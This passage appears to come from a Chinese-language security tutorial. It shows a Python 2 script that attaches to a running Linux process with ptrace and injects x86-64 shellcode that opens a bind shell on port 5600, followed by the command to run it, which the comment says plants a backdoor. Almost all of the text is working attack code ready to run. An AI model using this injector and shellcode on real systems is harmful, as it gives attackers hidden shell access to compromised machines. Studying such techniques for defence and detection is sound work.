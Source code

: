 >
>pid=int(sys.argv[1])
>
># Define argument type and respone type.
>libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
>libc.ptrace.restype = ctypes.c_uint64
>
># Attach to the process
>libc.ptrace(PTRACE_ATTACH, pid, None, None)
>registers=user_regs_struct()
>
># Retrieve the value stored in registers
>libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
>
>print("Instruction Pointer: " + hex(registers.rip))
>
>print("Injecting Shellcode at: " + hex(registers.rip))
>
># Shell code copied from exploit db.
>shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"
>
># Inject the shellcode into the running process byte by byte.
>for i in xrange(0,len(shellcode),4):
> 
>  # Convert the byte to little endian.
>  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
>  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
>  shellcode_byte=int(shellcode_byte_little_endian,16)
> 
>  # Inject the byte.
>  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)
>
>print("Shellcode Injected!!")
>
># Modify the instuction pointer
>registers.rip=registers.rip+2
>
># Set the registers
>libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
>
>print("Final Instruction Pointer: " + hex(registers.rip))
>
># Detach from the process.
>libc.ptrace(PTRACE_DETACH, pid, None, None)
>```
>

```
python2.7 inject.py ID  #将后门写进进程，并在本地开启端口5600端口
```
